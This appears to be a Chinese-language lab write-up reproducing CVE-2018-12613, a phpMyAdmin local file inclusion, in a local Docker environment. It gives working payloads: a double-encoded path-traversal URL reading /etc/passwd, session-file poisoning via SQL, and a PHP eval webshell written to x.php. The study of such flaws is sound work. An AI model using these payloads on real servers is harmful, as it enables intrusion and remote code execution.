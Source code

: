 ```yaml
---
layout:     post             
title:      CVE-2018-12613 漏洞复现
date:       2023-07-15            
author:     sule01u                  
head-img:   img/post-bg-keybord.jpg 
catalog: true                      
tags:      
   - 漏洞复现
typora-root-url: ../img/cve-2018-12613
---
```


## CVE-2018-12613 本地文件包含漏洞详解

### 前言

phpMyAdmin是phpMyAdmin团队开发的一套免费的、基于Web的MySQL数据库管理工具。该工具能够创建和删除数据库，创建、删除、修改数据库表，执行SQL脚本命令等。 

> 漏洞影响范围 phpmyadmin 4.8.0 & 4.8.1

### 漏洞原理

服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码并且执行。

- 文件包含相关函数，代码审计时可关注如下几个函数

~~~
require()          # 函数出现错误的时候，会直接报错并退出程序的执行
require_once()     # 只包含一次
include()          # 在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行
include_once()     # 只包含一次
~~~

- 在存在漏洞的phpmyadmin的源代码的index.php中, 就出现了include函数

![image-20230716222403963](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/index_php.jpg)

- 根据上图，我们需要绕过前面几行条件的限制，条件如下

  - target参数不能为空
  - target参数必须为字符串
  - target 参数不能以index开头

  - target 参数不能出现在 $target_blacklist 内

    - 找到target_blacklist定义如下![image-20230716224109344](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/taeget_blacklist.png)

  - 参数必须通过白名单验证

    - Core::checkPageValidity($_REQUEST['target'])，我们查看Core类checkPageValidity方法源代码

    ![image-20230716230259840](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/core_check.png)

    - 白名单部分如下图所示

    ![截屏2023-07-16 23.31.44](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/whiteliat.png)

    - 所以利用二次编码“%253f”可以绕过checkPageValidity()的检查！

  - 构造payload

    > 由于二次解码只是在checkPageValidity()中执行的，在index.php中只做过一次解码

    1. checkPageValidity二次解码后,这个符合白名单验证，问号之前的文件在白名单之内
           

       ```
       /index.php?target=db_sql.php?/../../../../../../../../etc/passwd
       ```

    2. 绕过验证后，index.php一次解码后，如下所示，可以实现任意路径的文件访问
           

       ```
       /index.php?target=db_sql.php%3f/../../../../../../../../etc/passwd
       ```

    3. 最终payload

       ```
       /index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
       ```

### 漏洞验证

**复现环境： /vulhub/phpmyadmin/CVE-2018-12613**

```
# 切换到目标文件夹内,写你自己的路径
cd  /opt/vulhub/phpmyadmin/CVE-2018-12613 

# 拉取并启动容器
docker compose up -d

# 浏览器访问
http://localhost:8080

# 漏洞验证访问,/etc/passwd被读取，说明文件包含漏洞存在
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![截屏2023-07-16 23.13.27](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/etc_passwd.png)

### 漏洞利用

> 现在我们已经可以读取站点本地文件，那我们如何利用本地文件包含漏洞获取权限呢,？我们能写入一个webshell吗？ 咋写呢？
>
> ​	maybe可以试试session, php session文件可以存储会话的一些信息，我们来试试

- **执行 SQL语句 `SELECT '<?php phpinfo(); ?>'**

![image-20230717002336143](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/phpinfo.png)

- **根据session id查看session文件， cat /tmp/sess_06f6516222139397dee258dd594e5018**

![image-20230717002139736](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/session1.png)

- **包含session文件**

```
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_06f6516222139397dee258dd594e5018
```

​		成功包含session文件并执行了phpinfo![截屏2023-07-17 00.40.36](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/session.png)

- **既然可以通过session文件执行代码，那我们是否可以试试写入一句话木马**

```

# 通过sql查询写入一句话木马到session文件
	select "<?php @eval($_GET['s']);?>"
	
# 根据session id访问session文件，测试参数 s 是否能够成功执行命令
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c?s=phpinfo();
```

​		成功执行phpinfo();

![截屏2023-07-17 01.17.45](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/arg_s.png)

- **写webshell**

~~~
http://localhost:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_5e32e548ae8bb49bc7110dc2ec0ae06c&s=fputs(fopen(%27x.php%27,%27w%27),%27%3C?php%20@eval($_POST[pass])?%3E%27);
~~~

查看web目录下是否成功写入， cat /var/www/html/x.php, 已成功写入一句话木马

![截屏2023-07-17 01.23.08](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/w_eval.png)

蚁剑连接一句话木马

![截屏2023-07-17 01.25.38](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/test_connect.png)

成功获取shell

![截屏2023-07-17 01.25.17](https://raw.githubusercontent.com/BigTree975/BigTree975.github.io/master/img/cve-2018-12613/getshell.png)
